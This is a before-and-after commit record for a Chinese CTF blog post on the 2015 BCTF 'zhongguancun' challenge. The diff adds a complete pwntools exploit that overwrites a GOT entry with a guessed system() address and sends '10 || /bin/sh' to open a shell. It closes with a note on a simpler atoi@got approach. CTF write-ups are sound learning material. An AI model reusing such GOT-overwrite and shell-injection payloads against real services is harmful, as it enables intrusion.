

Before and after one commit to rk700/rk700.github.io, a Jekyll site: the page built from _posts/2015-03-25-bctf-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1134 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 1712 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add zhongguancun payload

```diff
--- a/_posts/2015-03-25-bctf-writeup.md
+++ b/_posts/2015-03-25-bctf-writeup.md
@@ -37,6 +37,81 @@ tags:
 
 于是，我开始一遍遍地跑，希望我猜测的地址能够碰上。跑了大概20几次，终于撞上了。得到flag是`BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}`。好吧，readonly check，我也是第一次见到这样的，学习了。
 
+下面是python代码，其中`system`的地址就是我猜测的。
+
+{% highlight python %}
+#!/usr/bin/env python2
+
+from pwn import *
+import sys
+
+if __name__ == '__main__' :
+    context(arch='i386', os='linux')
+    elf = ELF('zhong')
+
+    #ip = "127.0.0.1"
+    ip = sys.argv[1]
+    conn = remote(ip, 6666)
+
+#store name
+    payload = "a\n" + "A"*63 + "\n"
+    conn.recvuntil("Your choice? ")
+    conn.send(payload)
+
+    genPhoneDes = 0x08049b74
+
+#content of GOT before function addresses are resolved
+#len 18
+    gotB4=[0x080486c6, 0x080486d6, 0x080486e6, 0x080486f6, 0x08048706, 0x08048716, 0x08048726, 0xf7cc5570, 0x08048746, 0x08048756, 0x08048766, 0x08048776, 0x08048786, 0x08048796, 0x080487a6, 0x080487b6, 0x080487c6, 0x080487d6]
+
+    system = 0xf7433da0
+#rewrite the 1st entry(sprint) as system, and make sure the other function calls won't crash
+    funcAddr = [system] + gotB4[1:]
+
+#create the 1st product
+    payload = "a\n" + "B"*31 + "\n4\n-1011111111\n" + "CC" + ''.join([p32(x) for x in funcAddr]) + p32(genPhoneDes) + "D\n"
+    conn.recvuntil("Your choice? ")
+    conn.send(payload)
+
+#generate the menu
+    conn.recvuntil("Your choice? ")
+    conn.send("c\n")
+
+#create the following product
+    for i in range(1,16):
+        conn.recvuntil("Your choice? ")
+        conn.send(payload)
+
+#generate the menu again
+    conn.recvuntil("Your choice? ")
+    conn.send("c\n")
+
+#write to addr storing phone type string
+    blackberry = 0x0804b0fc
+    payload = "d\nb\n2\nb\n" + str(blackberry-60) + "\n"
+    conn.send(payload)
+
+#rewrite sprintf@got
+    sprintfGot = 0x0804b00c
+    payload = "b\n" + str(sprintfGot) + "\n"
+    conn.send(payload)
+    conn.recvuntil("Your choice? ")
+
+#calculate wholwsale price of another product
+    payload = "c\nb\n5\nb\n"
+    conn.send(payload)
+    conn.recvuntil("How many do you plan to buy?")
+
+#call sprintf which is system now
+    cmd = "/bin/sh"
+    payload = "10 || " + cmd + "\n"
+    conn.send(payload)
+
+    conn.interactive()
+{% endhighlight %}
+
+后记：阅读其他人的writeup，才知道可以不用暴力碰撞的……只需要通过对`atoi@got`进行一个相对的修改，改为`system`即可。而这是可以通过将`atoi@got`改为存放金钱的指针来完成，然后在减去花费的金额时就可以对那里操作了。太巧妙了！
+
 ## warmup
 
 这道题只有50分，应该不难，但我是一直到周一凌晨1点多才做出来……
```
